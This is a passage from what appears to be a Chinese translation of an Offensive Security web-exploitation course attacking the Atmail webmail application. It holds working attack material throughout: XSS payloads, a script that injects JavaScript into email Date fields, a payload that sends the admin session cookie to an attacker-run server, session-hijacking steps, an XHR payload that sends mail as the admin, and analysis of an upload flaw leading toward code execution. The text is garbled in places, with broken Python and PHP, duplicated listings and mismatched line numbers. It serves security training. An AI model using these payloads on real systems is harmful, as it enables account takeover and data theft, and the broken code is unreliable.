

**图 47：使用 payload 2 发现存储型 XSS**

由于我们的模糊尝试会在目标收件箱中产生大量邮件，我们可以使用以下脚本在进行模糊或攻击尝试清理收件箱：

```python
#!/usr/bin/python

import imaplib,sys

if len(sys.argv) != 2:

    print("(+) usage: %s <target>" % sys.argv[0])

    sys.exit(-1)

atmail = sys.argv[1]

box = imaplib.IMAP(atmail, 143)

box.login('admin@offsec.local', '123456')

box.select('Inbox')

typ, data = box.search(None, 'ALL')

for num in data[0].split():

    box.store(num, '\FLAGS', '\Deleted')

box.expunge()

box.close()

box.logout()
```

**列表 19 - Atmail 清理脚本**

根据第一次测试的结果，我们在 `Payload-2 w/Alert()` 字段中发现了 XSS 漏洞，这表明日期字段在反射之前没有经过适当的转义。通常情况下，这种漏洞的存在意味着我们可能会发现更多漏洞。我们可以尝试使用 payload 编号 13 再次运行模糊器：

```
kali@kali:~ /xss-webmail-fuzzer.py -t admin@offsec.local -f attacker@offsec.local -s
atmail -c plain -j onebody_main -r 13

############################################################

###### XSS WebMail Fuzzer - Offensive Security 2018 ######

############################################################

[+] 正在从 hacker.org 获取最新的 XSS 表格 ...

[+] 正在重放 payload 13

[+] 正在发送邮件 Payload-13-IFRAM-injected-From

[+] 正在发送邮件 Payload-13-IFRAM-injected-To

[+] 正在发送邮件 Payload-13-IFRAM-injected-Date

[+] 正在发送邮件 Payload-13-IFRAM-injected-Subject

[+] 正在发送邮件 Payload-13-IFRAM-injected-Body
```

**列表 20 - 向每个邮件字段发送 payload 13**




**图 48：使用 payload 13 发现 XSS**

与第一次测试类似，`Payload-13 IFRAM-injected-Body` 和 `Payload-13 IFRAM-injected-Date` 处出现了更多弹窗，这表明这些字段的过滤不足。

此时，我们至少有了几个注入点，并且开发一个概念验证脚本，以便以更有控制的方式执行攻击。以下脚本会将我们的 payload 注入日期字段，可以胜任任：

```python
#!/usr/bin/python

import smtplib, urllib2, sys

def sendMail(dstmail, frmail, smtpsrv, payload):

    msg = "From: attacker@offsec.local\n"

    msg += "To: admin@offsec.local\n"

    msg += "Date: %s" % payload

    msg += "Subject: You have been pwned!\n"

    msg += "Content-type: text/html\n"

    msg += "\r\n\r\n"

    server = smtplib.SMTP(smtpsrv)

    try:

        server.sendmail(frmail, dstmail, msg)

        print("[+] Email sent!")

        server.quit()

dstmail = "admin@offsec.local"

frmail = "attacker@offsec.local"

if not (dstmail and frmail):

    sys.exit()

if __name__ == "__main__":

    if len(sys.argv) == 3:

        print("(+) usage: %s <server> <payload>")

        sys.exit(-1)

    smtpsrv = sys.argv[1]

    payload = sys.argv[2]

    sendMail(dstmail, frmail, smtpsrv, "在日期字段中发现漏洞")
```

**列表 21 - 创建 XSS 漏洞的概念验证**

然后我们可以使用以下语法重复攻击，并在管理员 Web 界面中验证我们的脚本是否正常工作：

```
kali@kali:~$ ./atmail_sendmail.py "<script>alert(1)</script>"
```

**列表 22 - 通过我们的概念验证重放基础 XSS payload**

有了合适的工具，我们现在可以将注意力放在更有趣的攻击上。其中一个例子是窃取管理员会话 cookie 并使用它们来劫持该会话。然而，我们首先需要弄清楚如何获取 cookie，目前我们只能在受害者浏览器中显示它们，如图 49 所示。



**图 49：访问管理员 cookie**

## 2.3.1 练习

尝试重放攻击并使用 JavaScript 警告框显示 cookie 值。

## 2.4 会话劫持

取决于 `Atmail` 服务器中可能任何会话保护机制，我们现在可能具备窃取 cookie 和会话信息的能力。这将允许我们冒充受害者并从另一个位置访问其邮箱，同时绕过身份验证。这被称为会话劫持攻击，是一种著名的攻击向量。为了实现这种攻击向量，我们可以选择：

- `Date` 字段并注入恶意 JavaScript 代码或 HTML `IFRAME`
- `Body` 字段，它只允许使用 HTML `IFRAME`

记住，这两个选择是基于上一节模糊工作的结果。

如果我们成功并获得了目标会话的控制权，我们应该能够以账户合法所有者的身份执行任意操作。我们可以做的一些事情包括：

1. 读取邮件
2. 发送任意邮件
3. 删除任何邮件
4. 启用邮件转发（到我们控制的电子邮件地址）
5. 访问所有联系人（用于垃圾邮件）
6. 启用自动回复
7. 利用任何已验证的服务器端应用程序漏洞

## 攻击性安全

HTTP 服务器的根目录位于执行此命令的当前目录 (CWD)。在列表 23 中，根目录 URL 位于 `atmail` 目录。

```bash
kali@kali:~$ ./atmail_sendmail.py atmail '<script
src='http://192.168.2.100:9090/atmail-session.js'></script>'
```

**列表 24 - 注入一个将在登录用户上下文执行的 JavaScript 文件**

由于该 JavaScript 文件在我们的攻击机上不存在，我们将看到 Web 服务器返回 404 响应。

```bash
kali@atmail~$ atmail -m SimpleHTTPServer 9090

Serving HTTP on 0.0.0.0 port 9090 --

192.168.2.100 -- [30/May/2018 10:54:40] code 404, message File not found

192.168.2.100 -- [30/May/2018 10:54:40] "GET /atmail-session.js HTTP/1.1" 404 -
```

**列表 25 - Web 服务器按预期返回了 404 HTTP 码。**

我们的下一步是创建一个包含 cookie 的 JavaScript 文件，以便我们获取会话 cookie。实现此目标的方法是再次包含对我们 http 服务器的调用，但这次我们可以在尝试获取的 URL 后面附加 `document.cookie` 属性。

为了说明这一点，我们将在攻击系统的 Web 根目录中创建 `atmail-session.js`，代码如下（根据需要调整 IP 地址）：

```javascript
function addImage() {
    var img = document.createElement('img');
    img.src = 'http://192.168.2.100:9090/' + document.cookie;
    document.body.appendChild(img);
}
addImage();
```

**列表 26 - 将 cookie 泄露回攻击者的 JavaScript 代码**

该 JavaScript 代码创建了一个 `Image` 元素的实例，并将 `src` 属性设置为指向攻击者的 Web 服务器，将会话 cookie 作为 URL 字符串的一部分传递。

一旦负载在受害者浏览器中执行

```bash
kali@atmail~$ python -m SimpleHTTPServer 9090

Serving HTTP on 0.0.0.0 port 9090 --

192.168.2.100 -- [30/May/2018 11:11:06] "GET /atmail-session.js HTTP/1.1" 200 -

192.168.2.100 -- [30/May/2018 11:11:06] code 404, message File not found

192.168.2.100 -- [30/May/2018 11:11:06] "GET /atmail6=1fp8fjq4aa8sm5if934b62ptv6
HTTP/1.1" 404 -
```


列表 27 - 窃取 `atmail` 管理 `cookie`

现在我们已经有了会话 `cookie`，我们想要确保可以使用它来劫持会话。

## 攻击性安全
`penetrating-shading-exploitation`

首先，我们清空浏览器中的所有 `cookie`。可以通过更改 Firefox 中 `about:preferences#privacy` 部分的“清除历史记录设置”来实现，如图 50 所示。



现在我们可以重新启动 Firefox 并再次访问邮件界面。

## 攻击性安全

高级 Web 攻击与利用



图 51：重启 Firefox 后访问 Atmail Web 界面

此时，您应该会被提示登录。让我们尝试在 JavaScript 控制台中运行以下 JavaScript 代码来尝试我们的会话劫持攻击。

**注意：** 你窃取的 `cookie` 将与 `document.cookie="atmail6=1fp0bfijq4aa8sm5if934b62ptv6";` 不同。

```javascript
javascript:void(document.cookie="atmail6=1fp0bfijq4aa8sm5if934b62ptv6");
```

列表 28 - 在 Firefox JavaScript 控制台中运行的 JavaScript 代码。

这将设置 `cookie`（图 52），然后我们可以通过刷新网页来劫持会话（图 53）！

## 攻击性安全

高级 Web 攻击与利用





```javascript
javascript:void(document.cookie="*atmail6=1fp0bfijq4aa8sm5if934b62ptv6");
```

列表 28 - 在 Firefox JavaScript 控制台中运行的 JavaScript 代码。

这将设置 `cookie`（图 52），然后我们可以通过刷新网页来劫持会话（图 53）！

## 攻击性安全

### 2.4 练习

图 52：模拟攻击

图 53：绕过身份验证

## 攻击性安全

### 2.5 会话跨站 (Session Riding)

### 2.5.1 攻击

### 2.5.2 最小化请求

# 请求

- 原始 | 参数 | 十进制

```
GET
/index.php/mail/composemessage/send/tabId/viewmessageTab?emailTo=admin%40offsec.local
&emailSubject=test+email&emailBody=%3C%3E%09%09%09This+is+a+test+email!%3C<Br> HTTP/1.1
Host: atmail
Cookie: atmail=6hlncc5s12luq4ihiak9b1lf61
Connection: close
```

图 55：GET 请求向我们想要任何人人发送电子邮件

从初始请求转换为更短得多的请求并没有想象中那么困难。回顾一下，我们开始执行的 POST 请求，它从 Web 界面向一个中间地址发送电子邮件。

```
POST /index.php/mail/composemessage/send/tabId/viewmessageTab HTTP/1.1
Host: atmail
Content-Length: 338
Accept: application/json, text/javascript/*
Origin: http://atmail
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://index.php/mail
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0
Connection: close
Cookie: atmail=16t8al1shfd0hle2vcklk9
```

```
tabId=viewmessageTab1&compose=uid=2a5d740fb4&relatedMessageFolder=&relatedMessageUIDs=&relatedMessageId&relatedMessageResponseType=&relatedDraftUID&readReceiptRequested=false&emailTo=admin%40offsec.local%3C%3E&emailSubject=test%20email&emailCc=&emailBodyHTML=%3C%3E%09%09%09This+is+a+test+email!
```

列表 29 - 用于发送电子邮件的原始 GET 请求

这是我们使用 get 的最终请求：

```
GET
/index.php/mail/composemessage/send/tabId/viewmessageTab?emailTo=admin%40offsec.local
&emailSubject=hacked!&emailBody=This+is+a+test+email! HTTP/1.1
Host: atmail
Cookie: atmail=16t8al1shfd0hle2vcklk9
```

列表 30 - 发送电子邮件的原始 GET 请求已最小化
正如你所注意到的，在特殊情况下，我们能够使用 Repeater（重放器）功能将原始 POST 请求转换为 GET 请求。通过在 Repeater 中右键点击 POST，会弹出一个包含多个选项的弹出菜单。

# 开发会话劫持 JavaScript 负载

| 发送到 Spider | |
| :--- | :--- |
| 执行主动扫描 | |
| 发送到 Intruder | Ctrl+I |
| 发送到 Repeater | Ctrl+R |
| 发送到 Sequencer | |
| 发送到 Comparer | |
| 发送到 Decoder | |
| 在工具中请求 [仅限 Pro 版本] | |
| 修改请求方法 | |
| 修改正体编码 | |

图 56：在 BurpSuite 的 Repeater 中更改请求类型

更改请求方法会将 POST 请求转换为 GET 请求。

请注意，我们并不要求更改请求方法就能成功最小化请求。我们这样做是为了演示 Burp Suite 的功能。此外，这种转换并非总是可能的，因为它取决于 应用程序请求处理程序的实现方式。在这种情况下，Atmail 对此特定请求接受两种方法。

在 HTTP 请求之后，我们现在可以开始开发 JavaScript 代码，该代码将从受害者浏览器直接以管理员用户的身份执行此攻击。

在下面的示例中，我们将自己的电子邮件账户发送到 Atmail 服务器（`attacker@offsec.local`）。请注意，创建此账户是为了查看攻击结果。攻击者显然不需要在目标服务器上拥有账户。

我们将创建一个名为 `atmail_send_email_XHR.js` 的新 JavaScript 文件，包含列表 31 中的代码。如果代码执行正确，它将代表 `admin@offsec.local` 向 `attacker@offsec.local` 邮箱发送电子邮件。最重要的是，这将是自动的，且不需要登录的 Atmail 用户进行交互。

```
var email = "attacker@offsec.local";
var subject = "hacked";
var message = "This is a test email!";
function sendmail() {
  var uri = "index.php/mail/composemessage/send/tabId/viewmessageTab";
  var query_string = "?emailTo=" + email + "&emailSubject=" + subject + "&emailBodyHtml=" + message;
}
```

# 高级 Web 攻击与利用

```
xhr = new XMLHttpRequest();
xhr.open("GET", uri + query_string, true);
xhr.send(null);
send_email();
```

列表 31 - 向 `attacker@offsec.local` 发送电子邮件的代码

注意列表 31 中的代码实现了我们从上一节中收集的最小化 GET 请求。更重要的是，注意 JavaScript 代码没有使用任何 `cookie`。这是因为我们通过从已经登录 Atmail@offsec.local 的浏览器执行此脚本来模拟请求伪造。由于代码执行不需要交互且 HTTP 会话是合法的，我们应该能够使用它从一个账户向另一个账户发送电子邮件。然而，在测试了列表 31 的代码后，我们发现它并没有如预期般工作。在开发负载时，不可避免地会出错，应该至少熟悉浏览器的调试工具。对于 Firefox，我们可以使用内置的开发者工具来找出问题。在这种特定情况下，如果我们查看控制台输出，将看到 `atmail_send_XHR.js`。具体来说，它位于第 7 行。如果点击文件名，还可以看到 JavaScript 源代码以及问题所在的行 使用开发者工具调试我们的负载

# 高级 Web 攻击与利用

 ```

view-source:http://192.168.1.15:9090/atmail_send_XHR.js

var email = "attacker@offsec.local";

var subject = "hacked";

var message = "This is a test email!";

function sendEmail() {

  var uri = "index.php/mail/composemessage/send/tabId/viewmessageTab";

  var query_string = "?emailTo=" + email + "&emailSubject=" + subject + "&emailHtml=" + message;

  var xhr = new XMLHttpRequest();

  xhr.open("GET", query_string, true);

  xhr.send(null);

}

```

图 5：使用开发者工具调试 JavaScript 负载

幸运的是，这是一个简单的修复，我们需要在 `emailHtml` 之后关闭双引号。这里是完整的 `atmail_send_XHR.js` 文件：

```
01: var email = "attacker@offsec.local";
02: var subject = "hacked";
03: var message = "This is a test email!";
04: function send_email() {
05: {
06: var uri = "index.php/mail/composemessage/send/tabId/viewmessageTab";
07: var query_string = "?emailTo=" + email + "&emailSubject=" + subject + "&emailHtml=" + message;
08: var xhr = new XMLHttpRequest();
09: xhr.open("GET", uri, query_string, true);
10: xhr.send(null);
11: }
12: send_email();
```

列表 32 - JavaScript 利用负载

回顾一下，这是我们的攻击向量的总结：

- 向 `admin@offsec.local` 发送电子邮件，其 `Date` 字段带有恶意负载，引用我们攻击服务器上的 JavaScript 文件
- 在我们的攻击服务器上创建一个由第 1 步调用的 JavaScript 文件
- 在 JavaScript文件中包含代码，从 `admin@offsec.1` 向 `attacker@offsec.local` 发送电子邮件
- 在恶意 JavaScript 所在的目录启动简单的 Python Web 服务器
- 登录 `attacker@offsec.local` 账户以触发 XSS

# 攻击性

高级 Web 攻击与利用

 图 59：使用我们新的发送负载触发 XSS 攻击。在执行整个链后，我们可以登录并查看攻击者的收件箱，那里收到了来自管理员的电子邮件！ 2.5.4 练习

重建上面的 XSS 攻击以从管理员账户发送电子邮件。

### 2.5.5 进阶

一旦你可以发送电子邮件，将负载更改为创建联系人。

# 高级 Web 攻击与利用

要解析 Web 服务器的响应，可以使用 `XHR` 对象的 `response` 属性：

```
function read_body(xhr) {
  var data;
  if (xhr.responseType || xhr.responseType === "text") {
    data = xhr.responseText;
  } else if (xhr.responseType === "document") {
    data = xhr.responseXML;
  } else if (xhr.responseType === "json") {
    data = xhr.responseJSON;
  } else {
    data = xhr.response;
  }
  return data;
}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState === XMLHttpRequest.DONE) {
    console.log(read_body(xhr));
  }
}
xhr.open('GET', 'http://www.google.com', true);
xhr.send(null);
```


列表 33 - 从 `XMLHttpRequest` 请求读取基础服务器响应

请注意，此练习你需要一个 Web 代理，到此时，你应该已经足够熟悉 `BurpSuite` 了。在完成上一个练习后，增强 JavaScript 负载以从受害者的电子邮件收件箱中删除它。这提供了额外的隐蔽性，通常用于大规模 XSS 虫。

## 2.6 获取远程代码执行

### 2.6.1 概述

作为攻击者，我们希望找到一种方法来完全控制目标，这意味着渗透整个底层操作系统。当然，一个漏洞并不总是足够的。通常，我们必须在被审计的应用程序中使用多个漏洞，甚至针对系统上运行的不同的软件。

在 `Atmail` 的情况下，我们知道通过一点运气，可以使用 XSS 漏洞来劫持管理员 Web 会话。然而，运气好的话也可以用于访问应用程序的扩展管理功能。为了使此攻击向量生效，管理员用户必须在触发 XSS 漏洞时同时登录到两个界面。攻击者能够检测到

# 攻击性安全 高级 Web 攻击与利用

如如下所示，存在一个名为 `atmail6_admin` 的第二个话 cookie。

| 请求头 (Headers) | Cookie (Cookies) | 参数 (Params) | 响应 (Response) | 计时 (Timings) |
|---|---|---|---|---|
| Filter cookies | | | | |
| Request cookies | `atmail6`: `kn13ecv1p7bt65j7otf23fda93`<br>`atmail6_admin`: `62kt1a3umpsb33f6l4ghi7n4` | | | |

图 61：`Atmail` 管理 cookie

访问管理界面将极大扩展我们的攻击面。此外，负责实现管理功能的代码部分通常是审查最少且最受应用程序开发者信任的，因此从攻击者的角度来看非常有意思。

根据应用程序的性质，开发者有时会使用某些框架，允许系统管理员通过插件扩展原始应用程序的功能。本质上，这意味着任何对应用程序具有管理权限的人都可以在托管该应用程序的系统上执行任意代码。

一个设计良好且受保护的插件框架包含了安全边界，可以最大限度地减少在主机系统上执行任意代码的固有风险。由于 `Atmail` 的开发者没有在 Web 应用程序中充分保护插件部署过程，在这种情况下编写恶意插件绝对是一个可行的方案。

# 高级 Web 攻击与利用



在这里，我们将探索另一个应用程序功能的利用，在我们看来，该功能为在目标系统上获取远程代码执行提供了一种更有趣的方法。

## 2.6.2 漏洞描述

我们将描述的攻击向量实际上是一个小漏洞链，它优雅地破坏了应用程序的逻辑。

为了实现这一点，我们将使用两个漏洞。第一个漏洞通过更改应用程序的全局设置来削弱应用程序的防御态，第二个漏洞则利用这种削弱的防御态来上传恶意 PHP 代码。本质上，我们正在：

- 1. 修改应用程序的全局设置（需要管理权限）
- 2. 通过邮件附件上传文件（需要邮件用户访问权限）
- 3. 上传已上传的文件使其被服务器执行（不需要权限）

为了正确识别和理解本节中使用的漏洞，我们需要深入研究其源代码。

## 2.6.3 `addattachmentAction` 漏洞分析

由于我们针对的是邮件应用程序，而发送附件功能是我们支持的邮件平台最基本的功能之一，我们理应已经具备向 `Atmail` 服务器上传任意文件的能力。然而，问题在于：`Atmail` 使用了什么安全机制来防止用户下载并执行恶意文件，无论其类型如何？

# 高级 Web 攻击与利用

为了验证此攻击，我们首先捕获了用户在 Web 界面上向邮件添加附件时触发的正常 `HTTP POST` 请求。

```
POST /index.php/mail/composemessage/attachment/composeID=uidb69f94f29d0 HTTP/1.1
Host: atmail
User-Agent: Mozilla/5.0 (X; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xml,application+xml;q=0.9,*+q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://atmail/index.php/mail
Cookie: attachment6a1a508f9dba9af26gdklt15;atmail_admin=b0vc04964e9sp10cmsc6cd780
Connection: close
Upgrade-Requests: 1
Content-Type: multipart/form-data; boundary=15160329604997368475915284
Content-Length: 242

Content-Disposition: form-data; name="newAttachment"; filename="attachment.txt"
Content-Type: text/plain

---15160329604997368475915284---
```

列表 34 - 向邮件中添加文件时的典型 `POST` 请求。

随后，我们使用以下命令在 `Atmail` 代码中搜索 `"attachment"` 单词的任何出现（它是 URL 的一部分，列表 34）：

```bash
[atmail localhost] # grep -r "function attachment" /usr/local/atmail --color
```

```
/usr/local/atmail/webmail/application/modules/mail/controllers/ComposemessageController.php: public function attachmentAction()
```

结果，我们在 `/usr/local/atmail/webmail/application/modules/mail/controllers/ComposemessageController.php` 文件中发现了附件处理逻辑实现：

```php
public function attachmentAction() {
    {
        $this->_helper->viewRenderer()->setNoRender();
        $requestParams = $this->getRequest()->getParameters();
        $type = str_replace('/', '_', $_FILES['newAttachment']['type']);
        $filenameOriginal = urldecode($_FILES['newAttachment']['name']);
        $filenameOriginal = preg_replace("\\/\\+\\+", "", $filenameOriginal);
        $filenameES = $type . '-' . $requestParams['composeID'] . '-';
        $filenameOriginal;
        
        143:    $filenameFS = APP_ROOT . users::getTempFolder();
        144:    // Make sure the file will be saved to the user's tmp folder
        145:    $filenameABS = $filenameFS . $_FILES["newAttachment"]["name"];
        146:    if (realpath(dirname($filenameABS)) != realpath(APP_ROOT)) {
        147:            echo $this->view->translate("illegal filename");
        148:            return;
        149:        }
        150:    if (isset($_FILES["newAttachment"])) {
        151:        // Check for upload errors
        152:    }
        153:        if ($_FILES["newAttachment"]["error"] == UPLOAD_ERR_OK) {
        154:            {
        155:                if (move_uploaded_file($_FILES["newAttachment"]["tmp_name"], $filenameABS)) {
        156:                    //
        157:                }
        158:            }
        159:        }
        160: }
```

列表 36 - 处理附件的代码

如果我们仔细观察列表 36 的代码，会发现了一些有趣的地方。首先，在第 138 行，我们看到 `filenameFS` 拼接了 `users::getTempFolder()` 的结果。这意味着如果软件是在 Windows 操作系统上开发的，可能会被绕过。更重要的是，在第 139 行，我们看到允许以点开头的文件名。在第 147 行，我们看到 `filenameABS` 创建在用户的临时目录中。然而，这可以用于目录穿越。

`/usr/local/atmail/webmail/application/models/users.php` 中我们看到了相当复杂的实现：

```php
117:    /**
      * returns folder name, (Config)
      */
119:     public static function getTempFolder($subFolder = '', $user = null)
120:     {
121:         $globalConfig = Registry::get('config');
122:         if(!isset($globalConfig['tmpBaseName'])) {
123:             throw new Atmail_Exception('Compulsory tmpBaseName not found');
124:         $tmp_dir = $globalConfig['tmpBaseName'];
125:         if(!is_dir(APP_ROOT . $tmp_dir)) {
126:             $tmp_dir = '';
127:         }
128:         $tmp_dir = $accountFirstLetter . DIRECTORY_SEPARATOR;
129:         if(!is_dir(APP_ROOT . $tmp_dir)) {
130:             throw new Exception('Failure creating folders in tmp directory.');
131:         }
132:         // Web server user must own '$tmp_dir ' and sub folders have access permissions
133:         {
134:             $tmp_dir .= $accountSecondLetter . DIRECTORY_SEPARATOR;
135:             if(!is_dir(APP_ROOT . $tmp_dir)) {
136:                 @mkdir(APP_ROOT . $tmp_dir);
137:             }
138:         }
139:     }
140: }

$tmp_dir = $globalConfig['tmpBaseName']; // 1.
$userData = null;
if($userData == null) {
    $userData = Zend_Auth::getInstance()->getStorage()->read();
    if(is_array($userData) && isset($userData['user'])) {
        $safeUser = simplifyString($userData['user']);
    } else {
        // something went wrong.
        return global temp directory
        return APP_ROOT . 'tmp/';
    }
} else {
    $safeUser = simplifyString($user); // 2.
    $accountFirstLetter = $safeUser[0]; // 3.
    $accountSecondLetter = $safeUser[1]; // 4.
    $range = range('a','z');
    if(in_array($accountFirstLetter, $range)) {
        $accountFirstLetter = 'other';
    }
    if(in_array($accountSecondLetter, $range)) {
        $accountSecondLetter = 'other';
    }
}

if (!is_dir($APP_ROOT . $tmp_dir)) {
    throw new Exception('Failure creating folders in tmp directory.
    Web server user must own ' . $tmp_dir . ' and subfolders have access permissions');
}
$tmp_dir = $safeUser . DIRECTORY_SEPARATOR;
if (!is_dir($APP_ROOT . $tmp_dir)) {
    @mkdir($APP_ROOT . $tmp_dir);
    if (!is_dir($APP_ROOT . $tmp_dir)) {
        throw new Exception('Failure creating folders in tmp directory.
    Web server user must own ' . $tmp_dir . ' and subfolders have access permissions');
    }
}

if ($subFolder != '') {
    $tmp_dir = $subFolder . DIRECTORY_SEPARATOR;
